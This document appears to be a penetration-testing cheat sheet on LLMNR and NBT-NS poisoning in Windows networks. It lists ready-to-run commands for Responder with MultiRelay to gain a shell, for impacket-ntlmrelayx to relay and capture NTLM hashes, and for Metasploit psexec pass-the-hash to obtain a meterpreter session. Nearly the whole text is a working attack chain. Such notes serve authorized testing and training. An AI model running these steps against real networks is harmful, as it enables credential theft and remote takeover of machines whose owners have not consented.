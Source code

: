 # LLMNR and NBT-NS poisoning/relaying
### Responder and gaining shell with MultiRelay
1. Set up `MultiRelay.py`
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe`_ - in case it doesn't work initially
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe`_ - in case it doesn't work initially
   * _`x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`_
   * _`x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`_
   * `cd /usr/share/responder/tools/` - must be in the `MultiRelay` in order for the tool to get proper locations of the above files
   * **`python3 MultiRelay.py -t <target> -u ALL`**</br>
      - where `-u ALL` -> users
2. Run `Responder`
   * `responder -I <interface> -rdwv --lm`

### Responder and relay with ntlmrelayx
1. Edit `Responder.conf` and set `SMB` and `HTTP` to **OFF**
2. Create `targets.txt with targets IP` for `impacket-ntlmrelayx`
3. `impacket-ntlmrelayx -tf targets.txt -smb2support` -> will relay NTLMv1/2 and get NTLM hashes (these can be used to PTH)
4. `responder -I <interface> --lm -rdwv` -> will get NTLMv1/2 aka NET-NTLM hashes (these cannot be used in PTH)
5. Metasploit 
   * `use exploit/windows/smb/psexec`
   * `set smbpass <NTLM_hash>`
   * set all other options
   * `run` and get meterpreter

## Cool resources
https://book.hacktricks.xyz/shells/shells/windows#regsvr32
https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
